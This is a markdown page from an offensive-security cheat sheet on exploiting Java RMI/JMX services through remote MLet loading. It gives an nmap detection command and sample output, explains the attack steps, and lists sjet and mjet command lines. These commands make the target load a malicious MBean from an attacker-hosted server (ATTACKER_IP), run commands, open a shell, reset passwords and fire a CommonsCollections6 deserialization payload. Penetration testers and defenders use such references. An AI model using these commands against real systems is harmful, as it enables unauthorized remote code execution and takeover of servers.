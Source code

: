 +++
title = "Java RMI"
date = '2022-10-16'
description = 'All about Java RMI techniques, methods, payloads, how/why/when they work.'
+++
# Java RMI

> The attacker can host a MLet file and instruct the JMX service to load MBeans from the remote host. 

## Exploitation

### Requirements
- Jython
- The JMX server can connect to a http service that is controlled by the attacker
- JMX authentication is not enabled


### Detection

```powershell
$ nmap -sV --script "rmi-dumpregistry or rmi-vuln-classloader" -p TARGET_PORT TARGET_IP -Pn -v
1089/tcp open  java-rmi Java RMI
| rmi-vuln-classloader:
|   VULNERABLE:
|   RMI registry default configuration remote code execution vulnerability
|     State: VULNERABLE
|       Default configuration of RMI registry allows loading classes from remote URLs which can lead to remote code execution.
| rmi-dumpregistry:
|   jmxrmi
|     javax.management.remote.rmi.RMIServerImpl_Stub
```

### Remote Command Execution

The attack involves the following steps:
* Starting a web server that hosts the MLet and a JAR file with the malicious MBeans
* Creating a instance of the MBean javax.management.loading.MLet on the target server, using JMX
* Invoking the "getMBeansFromURL" method of the MBean instance, passing the webserver URL as parameter. The JMX service will connect to the http server and parse the MLet file.
* The JMX service downloads and loades the JAR files that were referenced in the MLet file, making the malicious MBean available over JMX.
* The attacker finally invokes methods from the malicious MBean.

Exploit the JMX using [sjet](https://github.com/siberas/sjet) or [mjet](https://github.com/mogwailabs/mjet)

```powershell
jython sjet.py TARGET_IP TARGET_PORT super_secret install http://ATTACKER_IP:8000 8000
jython sjet.py TARGET_IP TARGET_PORT super_secret command "ls -la"
jython sjet.py TARGET_IP TARGET_PORT super_secret shell
jython sjet.py TARGET_IP TARGET_PORT super_secret password this-is-the-new-password
jython sjet.py TARGET_IP TARGET_PORT super_secret uninstall
jython mjet.py --jmxrole admin --jmxpassword adminpassword TARGET_IP TARGET_PORT deserialize CommonsCollections6 "touch /tmp/xxx"

jython mjet.py TARGET_IP TARGET_PORT install super_secret http://ATTACKER_IP:8000 8000
jython mjet.py TARGET_IP TARGET_PORT command super_secret "whoami"
jython mjet.py TARGET_IP TARGET_PORT command super_secret shell
```

## References

* [ATTACKING RMI BASED JMX SERVICES - HANS-MARTIN MÜNCH - 28 APR 2019](https://mogwailabs.de/en/blog/2019/04/attacking-rmi-based-jmx-services/)
* [JMX RMI – MULTIPLE APPLICATIONS RCE - Red Timmy Security - 26th March 2019](https://www.exploit-db.com/docs/english/46607-jmx-rmi-–-multiple-applications-remote-code-execution.pdf)

